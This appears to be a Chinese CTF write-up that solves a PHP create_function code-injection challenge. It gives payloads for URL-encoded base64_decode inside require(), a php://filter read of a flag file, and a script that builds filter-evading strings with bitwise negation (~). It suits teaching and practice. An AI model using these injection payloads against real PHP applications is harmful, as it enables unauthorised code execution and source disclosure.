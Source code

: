 利用create_function可以直接写代码进去，后面再用个//给注释掉后面的`}`



![image-20210501132724270](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501132724270.png)

这里对flag.php进行了包含，利用`get_defined_vars`这个函数可以对所有的变量进行输出

![image-20210501132911909](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501132911909.png)

![image-20210501134843578](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501134843578.png)

![image-20210501134951242](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501134951242.png)

看到了flag在rea1fl4g.php那个文件

利用require来对rea1fl4g进行文件包含

```php
require(%62%61%73%65%36%34%5f%64%65%63%6f%64%65(cmVhMWZsNGcucGhw));
```

然后再用`get_defined_vars`读取

![image-20210501142732073](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501142732073.png)

但是这个flag还是假的

去看源码发现flag的确是在里面

![image-20210501142837573](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501142837573.png)

因为使用`get_defined_vars`读取的时候触发了unset函数，导致真正的flag被销毁了

所以只能换一种方法来做



利用php伪协议来进行读取文件源码

![image-20210501144735079](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501144735079.png)

```php
php://filter/read=convert.base64-encode/resource=rea1fl4g.php
```

php当中`~`可以对字符进行取反

取反脚本

```php
<?php
var_dump(urlencode(~"php://filter/read=convert.base64-encode/resource=rea1fl4g.php"));
?>
```

![image-20210501145139141](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501145139141.png)

然后把拿到的base64编码拿去解码就能得到flag了

![image-20210501145257784](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210501145257784.png)